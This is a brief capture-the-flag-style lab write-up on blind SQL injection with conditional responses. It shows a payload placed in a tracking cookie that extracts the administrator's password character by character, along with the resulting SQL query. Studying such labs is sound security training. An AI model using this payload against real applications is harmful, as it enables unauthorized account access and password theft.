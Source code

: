 # Twelveth Lab : Blind SQL INJECTION

Lab - 12 : Blind SQL injection with conditional responses

SQL Injection : Tracking Cookie for analytics

Endgoal : Logging in as administrator

Analysis : 

1. Finding the trackingID cookie 
    
    ![vmplayer_46UG4pRWBA.png](Twelveth%20Lab%20Blind%20SQL%20INJECTION%2021b3c5d54c768054b8fde4283fc6ccc8/vmplayer_46UG4pRWBA.png)
    
2. Testing the payload 
    
    ```
    Payload -> xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
    ```
    
    Query for this will be 
    
    ```sql
    SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm'
    ```
    
    This returns no error when the first character of the password is greater than m otherwise it returns error.